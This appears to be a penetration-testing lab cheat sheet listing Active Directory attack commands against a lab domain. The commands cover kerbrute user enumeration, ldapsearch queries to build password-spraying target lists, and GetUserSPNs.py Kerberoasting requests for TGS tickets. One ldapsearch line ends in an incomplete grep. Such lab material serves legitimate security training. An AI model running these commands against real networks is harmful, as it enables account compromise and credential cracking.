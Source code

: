 #### Enumerating Users with Kerbrute

Initial Enumeration of the Domain

```python
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```

#### Using ldapsearch

Enumerating & Retrieving Password Policies

```python
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep
```

#### Using ldapsearch

Password Spraying - Making a Target User List

```python
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

#### Listing SPN Accounts with GetUserSPNs.py

Kerberoasting - from Linux

```python
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

#### Requesting all TGS Tickets

Kerberoasting - from Linux

```python
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```

